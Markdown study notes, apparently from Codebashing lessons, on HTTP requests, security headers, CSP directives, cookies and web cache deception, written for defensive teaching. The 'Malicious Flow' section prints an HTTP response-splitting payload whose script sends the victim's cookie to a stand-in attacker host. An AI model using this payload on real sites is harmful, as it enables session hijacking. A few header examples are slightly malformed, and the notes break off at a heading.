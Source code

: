 Non-HTTP protocol related vulnerabilites:
* XSS
* Clickjacking
* Man-in-The-Middle

HTTP is a stateless application level protocol for distributed, collaborative, hypertext information systems.

Working OSI (Open Systems Interconnection) Model:
1. Physical Layer
2. Data Link Layer
3. Network Layer
4. Transport Layer
5. Session Layer
6. Presentation Layer
7. Application Layer

### Sample GET Request
```
GET /courses HTTP/1.1
Host: codebashing.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36
Referer: https://codebashing.com/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Connection: close
```
* GET is an HTTP verb used to retrieve data from a server
* `/courses` is a path where the desired data resides
* `HTTP/1.1` is the HTTP protocol version that is used for communication
* `HOST` header specifies the requested hostname (authority part of the URL).
* `User-Agent` header describes the software used to make a request.
* `Referer` header contains a previous page visited by the user.
* `Accept` and `Accept-*` headers specify the type of the content, language, encoding, etc. that a client understands
* `Cache-control` header defines cache mechanism behavior
* `Upgrade-Insecure-Requests` header shows to the server that the client prefers encrypted communications
* `Connection` header defines whether the network connection should stay open

### Sample GET Response
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Server: nginx/1.11.9
X-Frame-Options: ALLOW-FROM https://academy.checkmarx.net
ETag: W/"8ca5dd4f507a4295e629491c"
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: trackingCookie=user1357272
X-Request-Id: 295e586f-7cab-4530-b5cb-1c
X-Runtime: 0.2243
Connection: close
Content-Length: 8576
<!DOCTYPE html>
<-- Web Page content -->
```
* `Content-Type` header defines the type of content that resides in the response body
* `Server` header describes the software that is running on the server side
* `X-Frame-Options` defines domains that can open pages from the current domain in the or similar HTML tags
* `ETag` and `Cache-Control` headers are used to manage caching.
* `Set-Cookie` header instructs the user-agent to save header directives as cookies.
* `X-Request-Id` and `X-Runtime` are custom headers that are specific to the application or environment where the application is hosted.
* `Connection` header defines whether the network connection should stay open.
* `Content-Length` defines the length of the response body.

### Sample POST Request
```
POST /login HTTP/1.1
Host: www.lotsofgoods.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36
Referer: https://codebashing.com/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 46
login=alice&password=correcthorsebatterystaple
```
* `POST` is an HTTP verb used to send data to the server and change the application state
* `/login` is the URL path

### Sample HTTP POST Response
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Server: nginx/1.11.9
ETag: W/"d18a59b032422092a1daaccd9b46bbf4"
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: sessionid=26161af57b9de30f9b67d16be83700113f8742a136c26d3d2e90b677b85934fe
Connection: close
Content-Length: 1467
<!DOCTYPE html>
<-- Web Page content -->
```

### HTTP Security Headers
Once implemented, HTTP security headers restrict modern browsers from running into easily preventable vulnerabilities. They also provide yet another, additional layer of security by helping to mitigate security vulnerabilities and prevent attacks (like XSS, Clickjacking, information leakage, etc.). But it is important to mention that HTTP security headers are not intended to replace proper, secure code.
```
HTTP/1.1 200 OK
Date: Thu, 21 Mar 2019 09:05:07 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Connection: close
Cache-Control: max-age=600
Content-Security-Policy: script-src 'self' *.codebashing.com 'unsafe-inline' 'unsafe-eval'  www.google-analytics.com; img-src 'self' *.codebashing.com
Expires: Thu, 21 Mar 2019 09:15:06 GMT
Location: https://codebashing.com
strict-transport-security: max-age=31536000
Vary: Accept-Language, Accept-Encoding
x-content-type-options: nosniff
X-Frame-Options: DENY
X-Robots-Tag: noodp
x-xss-protection: 1; mode=block
```

HTTP Strict Transport Security (HSTS) is a mechanism that prevents user-agents (a browser or any kind of program designed for communication with a particular server) from browsing a website via an unencrypted connection in case an encrypted connection can be established, and only using a trusted certificate.

If the request is communicated through an unencrypted channel, it can be captured and tampered with by an attacker. The attacker then can steal or modify any information transmitted between the client and the server or redirect the user to a phishing website. So, the first goal of HSTS is to ensure traffic is encrypted, so it instructs the browser to always use HTTPS instead of HTTP.

Usually, browsers allow users to ignore TLS errors and continue browsing potentially insecure websites. With HSTS enabled, the user will be unable to skip the browser warning and continue. The second important goal of HSTS is to make sure that the traffic is encrypted using a trusted and valid certificate.

### HTTP STRICT TRANSPORT SECURITY
When HSTS response header signals the browser that the certain domain must be requested only using HTTPS, the browser saves this domain to the HSTS list and keeps it there for the timeframe specified in max-age directive of the Strict-Transport-Security header.
There are two cases when HSTS doesn't provide proper protection:
* when the user hasn't browsed to the website before and is making his very first request to this website over HTTP,
* when existing HSTS data has already expired.

To resolve this, it is possible to have a domain included in the HSTS preload list which arrives baked into most modern browsers.

### X-XSS-PROTECTION
Some modern browsers have built-in XSS protection mechanisms that can be used as an additional layer of security against Reflected XSS. The main problem with that is that all of the browsers implement built-in XSS filtering differently, so to add more control to the process and make sure that the loading of a page with the malicious content will be blocked, the X-XSS-Protection header is needed.

X-XSS-Protection header is an optional HTTP header that performs XSS filtering by defining the anti-XSS mechanism behavior: from sanitizing the page by blocking injected Javascript to preventing page rendering and reporting the violation.

By default, browsers that support XSS filtering have it enabled. Though it can be disabled, this is considered a bad practice; often, if an application requires XSS protection to be disabled in order to function properly, it is an indication that the application is quite likely vulnerable to XSS.

Please note that only using the X-XSS-Protection header will not protect your application from XSS, but this header will make an important input in your defense-in-depth strategy and make it more robust.

### X-FRAME-OPTIONS
X-Frame-Options header a defines if the webpage can be rendered inside an <iframe>, <frame>, <applet>, <embed> or <object> tags. Depending on the directive, this header either specifies the list of domains that can embed the webpage, or allows the page to be embedded only inside pages of the same origin, or totally prohibits embedding of a webpage.

The main purpose of the X-Frame-Options header is to protect against Clickjacking. Clickjacking is an attack when the vulnerable page is loaded in a frame inside the malicious page, and the users are tricked into interaction with buttons and other clickable UI elements (e.g. unknowingly clicking "likes" or downloading malicious files) of a vulnerable page without their knowledge.

(Note that setting X-Frame-Options with <meta> HTML tag inside a webpage doesn't work. Use HTTP headers to set it.)

In the right pane, you can see a screenshot of the webpage where the content of another page was denied to be displayed in a frame because the X-Frame-Options header disallowed the browser from doing so with a deny directive.

### X-FRAME-OPTIONS AND CONTENT-SECURITY-POLICY
X-Frame-Options is also covered by Content-Security-Policy (CSP). CSP is a suite of headers with security directives for multiple uses (which will be covered in their own lesson). Among these security directives is the frame-ancestorsdirective which pursues the same goal as the X-Frame-Options header. The main difference between them is the implementation of the SAMEORIGIN directive of the X-Frame-Options header.

Various user-agents interpret SAMEORIGIN directive in a different way, and some of them only check the top-level domain. Whereas with the CSP's frame-ancestors directive, the whole chain of origins is checked. (The example of the chain of origins is an iframe inside an iframe, inside an iframe, and so on.)

The CSP W3C recommendation states that with the CSP frame-ancestors directive being introduced, the X-Frame-Options header becomes obsolete. Thus CSP should be used to prevent Clickjacking in the first place and the X-Frame-Options header should be used for backward compatibility with browsers that don't support this CSP directive.

### HTTP Version
When HTTP v1.1 is used in HTTP requests, it presents them in a human-readable format. HTTP v2 requests are binary and require special tools to be read. The main difference between v1.1. and v2 is the way requests and responses are transmitted: HTTP2 is aimed at decreasing the time required for data transfer.

```
GET /courses HTTP/1.1
Host: codebashing.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36
Origin: https://codebashing.com
Referer: https://codebashing.com/dashboard
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Cookie: sessionid=b3cd288f3e3d499ca8e45fbae696f7b5
Connection: close
```

```
HTTP/1.1 200 OK
Date: Sat, 08 March 2019 12:33:14 GMT
Server: nginx/1.11.9
X-Frame-Options: ALLOW-FROM https://academy.checkmarx.net
ETag: W/"8ca5dd4f507a4295e629491c"
Cache-Control: max-age=0, private, must-revalidate
Set-Cookie: trackingCookie=user135727
X-Request-Id: 295e586f-7cab-4530-b5cb-1c
X-Runtime: 0.2243
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 8576
<!DOCTYPE html>
<-- Web Page content -->
```

### HTTP Request Methods
In HTTP v1.1 and v2 the following methods are used for different purposes: GET, POST, HEAD, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH.

The most used of them are GET and POST methods.

GET method is used to retrieve data from a server. GET requests are read-only (according to the HTTP RFC, they should not change the application state but in real life they sometimes do) and do not have a body.

POST requests are used to change the application state and have a body.

Using GET for state-changing operations can lead to CSRF and information disclosure. First, because GET request doesn’t have a body, all the information is sent in an URL, and the URL can be disclosed in intermediate devices. Second, for POST requests, there is built-in protection against CSRF in all modern frameworks, but for GET requests, it depends on the framework, whether or not it has built-in CSRF protection for them.

Description of other HTTP methods could be found under the following links:

https://tools.ietf.org/html/rfc7231 and https://tools.ietf.org/html/rfc5789

```
POST /login HTTP/1.1
Host: lotsofgoods.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36
Origin: https://codebashing.com
Referer: https://codebashing.com/courses
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
Cookie: sessionid=55fc9da99a9d425c8ec8c597fd5bec61
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Connection: close
login=alice&password=correcthorsebatterystaple
```

```
GET /courses HTTP/1.1
Host: codebashing.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.84 Safari/537.36
Origin: https://codebashing.com
Referer: https://codebashing.com/dashboard
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Cookie:sessionid=b3cd288f3e3d499ca8e45fbae696f7b5
Connection: close
```

### URL Structure
URLs are used to locate resources on the Internet. Let’s take a look at the URL structure that is used with HTTP (for other protocols, URL format may differ).
`scheme://authority/path?query#fragment`

### Get Request Headers
In HTTP requests and responses, the following types of headers are used:
* Request
* Response
* Entity
* General
* Custom application defined
The complete list of HTTP headers can be found in HTTP RFCs.

### Host
This header is used to route through the different applications hosted on the same IP address. Note that the Host header is completely under the user control (so, do not use its value for security checks).

### User-Agent
This header is used by the server to define the user's client application and to serve the correct version of the requested web page. This header can be easily manipulated (e.g. some browser plug-in could change user-agent to an arbitrary value), so it shouldn't be used for security checks.

### Referer
This header shows the address of the previous web page where the user clicked the link to the requested page. Referer header contains the full URL of the previous page, so if there is sensitive data in that URL, then it could be disclosed through this header. Referer header is completely under the user control, so do not use its value for security checks.

### Accept, Accept-*
This group of headers defines what encoding, language, content type the client can understand.

### Upgrade-Insecure-Requests
This header sends a signal to the server expressing the client’s preference for an encrypted and authenticated response.

### Connection
This header controls whether or not the network connection stays open after the current transaction finishes.

### HTTP Cookies
An HTTP cookie is a small piece of data that a server sends to a client. The server sends the cookie using the Set-Cookie header in the response. It looks like that:

Set-Cookie: trackingCookie=user1357272

User-agent saves a cookie from the response and sends it back in the Cookie request header like that:

Cookie: trackingCookie=user1357272

Cookies are used for the following purposes:

1. Session management

HTTP is a stateless protocol meaning that two requests cannot be correlated to the same source or to each other even if they are sent from the same IP address and contain the same user-agent. In other words, without some additional information, the server is not able to understand that two requests were sent consequently by the same user.

To keep the flow of all the user's requests, session identifiers are used. Usually, a session identifier resides in a cookie and is sent with every request in the Cookie header. Thus the server can track all actions the user makes, display him the right interface, and send responses with correct data

2. Personalization

Sometimes cookies are used to store user preferences and non-sensitive application data.

3. Tracking

Nowadays many companies try to understand their users' behavior and track all the actions users make. Cookies can be used for this purpose as they can persist in the browser, until cleared, and can be tied to the user behavior, even if the user is not authenticated.

### Response Status Codes
And now let us look at the response. Near the HTTP version, we can see the response code (200 OK in our example).

There are five groups of response status codes with the corresponding status message. Let us review these groups and look at the most popular status codes.

Successful responses

200 – OK

This status shows that the request has succeeded. Either the desired information exists on the server and is transmitted in the response body, or the desired application state change has been performed successfully.

Redirection responses

301 – Moved permanently

The status means that the desired resource resides at another location (which is usually specified in the Location header of the response).

302 – Found

The status also means that the desired page has been moved and a new location is specified in the Location header of the response. But in this case, the page has been moved temporarily.

304 – Not Modified

This code is used to instruct the browser to used cached data because it hasn’t changed since the previous request.

Client error responses

400 – Bad Request

This status means that the request syntax is invalid and the server was not able to process it.

401 – Unauthorized

This status means that the requested resource requires a client to be authenticated.

403 – Forbidden

This status means that the authenticated user does not have permissions to access the requested resource.

404 – Not Found

This code shows that the requested resource does not exist on the server.

Server error responses

500 – Internal Server Error

This code means that the request syntax is correct, but the server could not prepare a response for the request due to an exception thrown by the application code.


### HTTP Headers that are misused for security purposes
You should NEVER use the following headers in implementations of security mechanisms:
Host
Referer

### Content-Type Header
The Content-Type header is not actually a security header, and content type validation cannot be treated as a standalone security mechanism. But it is definitely an important part of the defense-in-depth strategy.

By setting Content-Type in request and response headers, the programmer can manipulate the way the server will interpret the body of the corresponding HTTP request or response. If the server doesn't check the content header value, it leaves a possibility for an attacker to manipulate the application's behavior by tampering with the Content-Type header content.

In the right pane, there is an example of a JQuery vulnerability that is based on the missing Content-type header.

In versions prior to 3.0.0, JQuery automatically evaluates the response body if response Content-Type header is text/javascript for cross-domain requests.

If the datatype is not specified in $.get(), then the method doesn’t wait for a specific type of content and processes any kind of content received in response. If the content is javascript, it is automatically evaluated.

The vulnerability was mitigated by implementing content type validation: if an application does not expect javascript in the response, then it is not executed.

### X-CONTENT-TYPE-OPTIONS
When the user agent (usually, a browser) is trying to guess the content type, it is called MIME sniffing. This feature can be abused by an attacker and the browser can be tricked into interpreting malicious data, for example, in an XSS attack.

In HTTP response, there is an X-Content-Type-Options header that has a single nosniff directive. It indicates that the user agent should not perform MIME sniffing and should treat the body content as the content of the type specified in the Content-Type header.

X-Content-Type-Options is also not a security header, but together with Content-Type, they make a valuable input into the defense-in-depth strategy. Don't let the user agent guess the content type, because missing content type check can lead to the execution of content that should not be executed, or to a security controls bypass.

### Referer
Referer header contains the address of the webpage that sent the HTTP request. It's is set by the browser and cannot be set using Javascript.

The major security considerations about the Referer header is that even though it's set by the browser and cannot be manipulated using the Javascript, the header content must not be used for making security-related and business logic-related decisions. It can be manipulated by an attacker as any other part of the HTTP request, thus making all the security mechanisms based on the Referer header check flawed by design.

### REFERER AND REFERER-POLICY HEADERS
The Referer header usually contains the full URL of the page that initiated the request. If the URL contains sensitive data, then ordinary legitimate requests to analytical systems or image storages disclose that data from the URL. To prevent this, one must avoid storing sensitive data in the URL and use Referrer-Policy header, rel or referrerpolicy HTML tag attributes.

The Referrer-Policy header instructs user agents which referrer information, sent in the Referer header, should be added to the request. In other words, Referrer-Policy is an additional control that ensures that sensitive data doesn't leak from the Referer header.

HTML tag attributes enable similar behavior but apply it to a specific tag.

### Host
The Host header specifies which website or a web application hosted on the same web server (with the same IP address) should process an incoming HTTP request. It contains the domain name of the server, and (optionally) the TCP port number on which the server is listening. This header is set by the browser and cannot be modified using Javascript.

Even though Host header is set by browsers and cannot be manipulated using Javascript, its content must not be used for making security-related and business logic-related decisions. The header content (as any other part of the HTTP request) can be manipulated by an attacker, and that makes mechanisms based on the Host header check flawed by design.

In the right pane, you can see an example of a business logic-related decision that relies on the information from the Host header of the incoming request.

### Malicious Flow
Bob is a hacker. While he was scanning the application for vulnerabilities, he noticed that the server puts the location information in the cookie as is. If the location value is not sanitized, then this looks like a great chance to perform the HTTP Response Splitting attack.
Bob crafts the malicious payload that will trick the server into sending the page that contains a cookie-stealing script:
Cyberville\r\nContent-length: 113\r\n\r\n<script>document.write("<img src='https://www.bobsevilserver.com/catch?cookie="+document.cookie+" '/>");</script>
Then he puts it into the intercepted GET request instead of the legitimate payload.

HTTP Response Splitting was used to trick the server into returning the malicious payload as a legitimate webpage in the response. This is achieved by using \r\n combination of symbols to make the server interpret it as a line break and to insert the malicious page content over the legitimate one.

Cache Poisoning happened when that malicious response was saved in cache and then served to users in response to their ordinary requests.

In the right pane, there are two examples of how the \r\n combination can be used to:

insert an arbitrary custom header (e.g. to bypass some security control)
insert a new Content-Length header and a response body for the XSS or defacement attack
Each time you develop some new request parsing logic on your web server, make sure you filter out \r\n combination of symbols (or each of them separately) to prevent HTTP Response Splitting.

### CSP
Content-Security-Policy (CSP) is a special HTTP response header that tells the browser what are the safe sources of the content for the page it is going to load.

When those safe sources are specified, it prevents the hacker from tricking the browser into loading and running malicious scripts in the user’s browser, injecting iframes with some malicious or unauthorized content, displaying fake images or basically injecting anything from a remote untrusted domain.

CSP can also be used to ensure that all the content is loaded via HTTPS, and it also prevents Clickjacking by instructing the browser that it shouldn't allow the certain page to be loaded in an iframe.

```http
Content-Security-Policy: script-src 'strict-dynamic' 'nonce-RandomValue' 'unsafe-inline' http: https:https://codebashing.com; object-src 'none';
```

What this policy does:

It allows all scripts that have the RandomValue nonce specified and propagates the trust to all the scripts loaded by these scripts;

It will ignore scripts from https://codebashing.com unless they have the nonce specified;

It specifies the schemas that may be used to retrieve the scripts: http or https;

It disallows objects that can be used to execute JavaScript like <object >, <embed > or <applet > tags.

### CSP Precautions
As we've just learned, Content-Security-Policy header instructs the browser which sources of scripts (and other content) are trusted, and the browser runs only those scripts that were taken from those trusted sources and ignores all the inline scripts and HTML event attributes (unless it's instructed otherwise).

It is important to emphasize:

CSP doesn't prevent the injection of malicious scripts itself. Those scripts can be injected by some hacker. But they will not run, because CSP will instruct the browser to execute only the scripts taken from the trusted sources specified in the policy.

So CSP shouldn’t be used as the only security control to prevent XSS or injection of malicious content. It should be used as a part of the defense-in-depth strategy against XSS and other vulnerabilities.

```http
Content-Security-Policy: script-src https://codebashing.com unsafe-inline' 'unsafe-eval'; img-src * ; default-src 'self'
```

What does this policy do?

It allows scripts loaded from https://codebashing.com

It allows script from inline resources

It allows usage of eval() and similar unsafe JavaScript methods

It allows images from any source

When the type of content is not specified, it falls back to the default policy that allows content loaded from the current origin.

### CSP CONFIGURATION NOTES
It is important to mention that the Content Security Policy must be thoroughly tested prior to the implementation in the production environment. CSP misconfiguration can easily break the application's functionality and ruin the user experience.

A misconfigured CSP is likely to be loosened or turned off, and a loosened CSP in most cases is as insecure as a missing CSP.

### CSP VERSIONS
CSP is constantly evolving. The current version of CSP is "level 2". "Level 3" version of it exists but it is still in a draft, nevertheless modern browsers support most of it. (CSP header can be not compatible with old browsers. Browsers that don’t support CSP just ignore the CSP header.)

### CSP DIRECTIVES TYPE: FETCH
This set of directives controls locations used to load different types of resources.

Please note that in order to mitigate XSS, you should define either default-src and script-src directives or object-src and script-src directives.

The default-src directive defines a default source of content for the webpage. It is used as a fallback when a specific directive is not defined. All fetch directives fall back to default-src if they are not defined.

This directive defines sources for <object>, <embed> and <applet> tags. Note that using these tags allows for arbitrary javascript execution, so it must be included into the policy in order to prevent XSS.

This directive defines sources of JavaScript like <script>, javascript:, eval(), etc.

It should be configured carefully because misconfiguration usually leaves an opportunity to bypass CSP.

The directive allows more granular configuration using keywords. Note that these keywords turn off some security features leaving CSP bypassable.

This directive is deprecated in CSP Level 3. Usage of frame-src and worker-src is recommended instead.

The directive defines sources for web workers and nested browsing contexts loaded using <iframe> or <frame> tags.

The directive restricts usage of XMLHttpRequests, Fetch, WebSockets, EventSource and <a ping=”URL”>, only the URLs specified in the policy can be loaded using methods mentioned previously.

frame-src

The directive specifies valid sources for nested browsing context using <iframe> or <frame>.


font-src

The directive specifies sources of fonts.

img-src

The directive specifies sources of images.

manifest-src

The directive specifies sources of a web application manifest.


media-src

The directive specifies sources of media loaded in <audio> or <video> tags.

prefetch-src

The directive specifies the URL from which resources can be prefetched or pre-rendered.

style-src

The directive specifies sources of style sheets.

worker-src

The directive specifies sources of web workers.


unsafe-inline

Without this keyword, CSP will trust only scripts loaded from the specified resources. It won't permit inline scripts residing on the webpage between <script>, <style> tags, in javascript: and event handlers.

This keyword allows inline script sources and thus removes the protection against XSS that CSP provides.

If there is no possible way to avoid using inline javascript, then nonce or hash source should be used.


unsafe-eval

This keyword allows usage of functions that evaluate code presented as a string, e.g. eval(), Function(), etc.

strict-dynamic

This keyword is used with a nonce or hash source, e.g. script-src ‘strict-dynamic’ ‘nonce-RandomValue’ or script-src ‘strict-dynamic’ ‘sha-256-base64EncodedHash’.

The nonce received in the header should be a part of <script>, e.g. <script nonce=”RandomValue” src=”script URL”>, thus the browser understands that this script is trusted and can be executed.

The hash received in the header is the base64 representation of a sha256 (384 or 512) hash of the script.

default-src

The default-src directive defines a default source of content for the webpage. It is used as a fallback when a specific directive is not defined. All fetch directives fall back to default-src if they are not defined.

object-src

This directive defines sources for <object>, <embed> and <applet> tags. Note that using these tags allows for arbitrary javascript execution, so it must be included into the policy in order to prevent XSS.


script-src

This directive defines sources of JavaScript like <script>, javascript:, eval(), etc.

It should be configured carefully because misconfiguration usually leaves an opportunity to bypass CSP.

The directive allows more granular configuration using keywords. Note that these keywords turn off some security features leaving CSP bypassable.


child-src

This directive is deprecated in CSP Level 3. Usage of frame-src and worker-src is recommended instead.

The directive defines sources for web workers and nested browsing contexts loaded using <iframe> or <frame> tags.


connect-src

The directive restricts usage of XMLHttpRequests, Fetch, WebSockets, EventSource and <a ping=”URL”>, only the URLs specified in the policy can be loaded using methods mentioned previously.

### CSP DIRECTIVES TYPE: DOCUMENT
These directives control the properties of a document or worker environment to which a content security policy applies.

In the right pane, click the directive you want to explore, and the description will appear instantly.

base-uri

The directive restricts the URLs that can be used in <base> element which defines the base URLs to be prepended to relative URLs used in the page.

plugin-types

The directives defines types of plug-ins used in <embed>, <object>, <applet> tags, e.g. flash objects or java applets.

sandbox

The directive applies a sandbox attribute to the current page. It behaves like a sandbox attribute used in <iframe> allowing to restrict execution of scripts and plug-ins, block pop-ups, etc.


disown-opener

The directive instructs a browser to set window.opener object to null when the user is navigated from a CSP-protected page to a new tab or window. Check out the Reverse Tabnabbing lesson to understand what purpose this directive serves.

Note that the directive is not finalized; alternative security controls should be used.

### CSP DIRECTIVES TYPE: NAVIGATION
These directives restrict URLs that are used to navigate the user from the current page using different HTML tags.

form-action

The directive specifies the URLs that can be used as targets of form submission, e.g. targetURL in <form action=”targetURL” method=”post”>.


frame-ancestors

The directive specifies sources that may open the page in <iframe>, <frame>, <applet>, <object> and <embed> tags.

The directive partially overlaps with the X-FRAME-OPTIONS HTTP header and serves the same purpose.

Check Clickjacking lesson to learn more about X_FRAME_OPTIONS and frame-ancestors.

navigate-to

The directive restricts the URLs to which document can initiate navigation using any navigation means.

Note that the directive is a part of CSP level 3, thus it is not published yet. There also can be support issues among browsers.

### CSP DIRECTIVES TYPE: REPORTING
To make the CSP configuration process easier, one can use a reporting functionality that is built into the CSP (it works according to the reporting API specification at https://w3c.github.io/reporting/).

Location of report collection service can be set using report-to or report-uri directives. Also, CSP has a report-only mode that should be used for testing CSP settings. The report-only mode is activated by using Content-Security-Policy-Report-Only header.

report-to

This directive specifies a reporting group that should be used to send reports. Reporting groups are set in Report-To response header. Reporting group is created according to the reporting API (https://w3c.github.io/reporting/).

report-uri

This directive specifies the URL that the user-agent should use to report CSP violation.

Note that this directive is deprecated in CSP level 3 and the usage of Report-To is recommended.

Currently, Report-To is not widely supported by browsers, thus the usage of both directives is recommended for the backward compatibility. If Report-To is presented and supported by the browser, then report-uri directive is ignored.

### CSP DIRECTIVES TYPE: OTHER
block-all-mixed-content

This directive prevents loading of any page components via HTTP if the page is loaded via HTTPS.


require-sri-for

This directive makes subresource integrity (SRI) usage mandatory for scripts or/and style sheets. For example, SRI allows to specify a loaded script hash and to check that script hasn’t changed.


upgrade-insecure-requests

This directive instructs the user-agent to upgrade non-navigational requests from HTTP to HTTPS.

### CSP TIPS
So, how to configure the effective Content Security Policy? We have some tips for you:

1. CSP should restrict at least sources of scripts and objects.

2. Use a whitelist of specific scripts containing the nonce specified in the policy or compare the script hash with the hash specified in the policy.

3. Avoid using unsafe-inline and unsafe-eval or at least use them with a nonce or a hash.

4. Test your policy before going to production.

5. Use CSP only in the report-only mode for a pilot run on production.

### Web Cache Deception
Web Cache Deception is another technique for attacking caches. It's different from the HTTP Cache Poisoning attack because no tainted data is saved in the cache and then served to users (which is what Cache Poisoning implies). During the Web Cache Deception attack, a malicious user gains unauthorized access to sensitive data of another user by exploiting ordinary cache behavior.

The following conditions should be met for the attack to succeed:

1. The web server returns the contents of the "root" page (https://codebashing.com/home/) when a nonexistent static file (like https://codebashing.com/home/somecss.css) is requested. (In other words, the URL is rewritten from route /home/somecss.css to /home/.)

2. Web cache disregards HTTP headers that define caching behavior and relies on file extensions (in our example - a CSS file).

3. A victim is authenticated while accessing a malicious URL.

The vulnerable application pane loads the online shopping application LotsOfGoods.me. It aggregates data from multiple off-line shops and presents it on a single platform. The user can buy goods from all those sellers right from the application.

So, let us quickly recap what had happened during the attack.

1. Bob lured the authenticated user (Alice) on a page with a nonexistent static resource (a CSS file in our case: https://lotsofgoods.me/myaccount/profile/revieworder.css).

2. The web server returned the contents of https://lotsofgoods.me/myaccount/profile/ page ignoring the filename and its extension.

3. Web cache disregarded HTTP headers that define caching behavior and cached the returned page (with all sensitive data of the logged on user) as a static file, based on its extension.

4. As a result, a subsequent request of the attacker to the https://lotsofgoods.me/myaccount/profile/revieworder.css showed the response for https://lotsofgoods.me/myaccount/profile/ with user's sensitive data.

To prevent Web Cache Deception, make sure the following conditions are met:

1. Only static content is cached, and it is separated from the rest of the content.

2. In case a non-existent page (or file) is requested, 404 page is returned or a redirect to the home page is performed using the HTTP 302 response code.

3. Caching directives from HTTP headers are taken into consideration and not ignored.


### HTTP CACHING
Caching is a mechanism designed to decrease the server load and speed up the loading of web pages. A cache saves copies of server responses and serves them to users upon their repeating requests.

The cache can operate locally in the user’s browser, or there are also intermediate caches: caching proxies, load balancers, CDNs, web servers. Our lesson is devoted specifically to intermediate caches.

In case of a browser cache, when a user requests some data, the browser first checks if the requested data is cached and not expired, then the cache serves the user the cached version of data. In case of an intermediate cache, the same logic is applied: first, the cache checks if the requested data is saved and not expired, and then serves it to users. It also allows serving data when the server is down.

Usually static content like images, stylesheets, or scripts is cached.

### CACHING HEADERS
Also, every cache provider has its own caching preferences and capabilities. To enable them, custom headers (that are specific to a certain cache provider) can be used. Those custom headers start with "X-" (like "X-Some-Header").

These headers are not a part of the HTTP standard and thus can be treated differently by different software.

Cache-Control

This general header defines the behavior of caching mechanisms through directives. Directives allow disabling of caching or fine-tuning of the caching behavior (e.g. specifying what kind of caching providers can cache the response, defining cache storage period, managing usage of the stale cache).

Pragma

This header with the no-cache directive is equal to the Cache-Control: no-cache header. It is used for the backward compatibility with HTTP/1.0 caching mechanisms. The header is not supported by some user agents, thus using Cache-Control header as a reliable caching mechanism is more preferable.

Age

This header specifies the number of seconds a response has been stored in an intermediate cache.

Expires

This header sets the date and time when the ached response becomes expired.

ETag and Precondition headers (If-*)

These headers are used to validate the freshness of cached data. ETag header value stores a version of the resource and If-* headers define additional conditions of ETag verification.

### CACHE KEYS
